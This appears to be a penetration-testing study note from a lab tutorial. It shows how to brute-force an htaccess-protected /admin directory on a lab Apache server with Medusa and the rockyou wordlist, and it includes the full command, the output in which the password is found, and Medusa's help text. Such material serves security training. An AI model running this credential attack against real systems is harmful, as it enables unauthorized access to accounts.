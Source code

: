 • First, we will set up our target, an Apache webserver installed on our Windows client, which we will start through the XAMPP control panel. 
 
• We will attempt to gain access to an htaccess-protected folder, /admin, on that server.
 
• Our wordlist of choice for this example will be /usr/share/wordlists/rockyou.txt.gz, which we must first decompress with gunzip:

kali@kali:~$ sudo gunzip /usr/share/wordlists/rockyou.txt.gz

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/19/29.jpg)

• Next, we will launch medusa and initiate the attack against the htaccess-protected URL (-mDIR:/admin) on our target host with -h 10.11.0.22.

• We will attack the admin user (-u admin) with passwords from our rockyou wordlist file (-P /usr/share/wordlists/rockyou.txt and will, of course, use an HTTP authentication scheme (-M):


![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/19/30.jpg)


![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/19/31.jpg)

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/19/32.jpg)

kali@kali:~$ medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http
-m DIR:/admin
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>
ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: 123456 (1 of 14344391 com
ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: 12345 (2 of 14344391 comp
ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: 123456789 (3 of 14344391
ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: password (4 of 14344391 c
ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: iloveyou (5 of 14344391 c
...
ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: samsung (255 of 14344391
ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: freedom (256 of 14344391
ACCOUNT FOUND: [http] Host: 10.11.0.22 User: admin Password: freedom [SUCCESS]


![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/19/33.jpg)

• In this case, Medusa discovered a working password of “freedom”.

• Medusa has many additional options and settings, as shown in the help output in Listing.

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/19/34.jpg)

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/19/35.jpg)

kali@kali:~$ medusa
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>
ALERT: Host information must be supplied.
Syntax: Medusa [-h host|-H file] [-u username|-U file] [-p password|-P file] [-C file]
-M module [OPT]
 -h [TEXT] : Target hostname or IP address
 -H [FILE] : File containing target hostnames or IP addresses
 -u [TEXT] : Username to test
 -U [FILE] : File containing usernames to test
 -p [TEXT] : Password to test
 -P [FILE] : File containing passwords to test
 -C [FILE] : File containing combo entries. See README for more information.
 -O [FILE] : File to append log information to
 -e [n/s/ns] : Additional password checks ([n] No Password, [s] Password = Username)
 -M [TEXT] : Name of the module to execute (without the .mod extension)
 -m [TEXT] : Parameter to pass to the module. This can be passed multiple times wi
 different parameter each time and they will all be sent to the module
 -m Param1 -m Param2, etc.)